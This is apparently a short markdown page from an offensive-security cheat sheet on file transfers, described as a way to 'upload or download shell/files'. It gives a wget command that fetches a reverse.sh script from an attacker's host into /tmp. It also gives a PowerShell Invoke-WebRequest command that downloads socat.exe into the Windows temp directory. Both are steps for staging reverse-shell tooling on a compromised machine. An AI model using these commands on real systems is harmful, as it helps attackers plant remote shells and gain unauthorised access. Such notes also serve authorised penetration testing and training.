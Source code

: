 ```yaml
---
description: Cheat sheet to upload or download shell/files etc
---
```


# File Transfers

### Download 

#### Wget

```text
wget <LOCAL-IP>/reverse.sh -O /tmp/reverse.sh
```

#### Powershell

```text
Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```



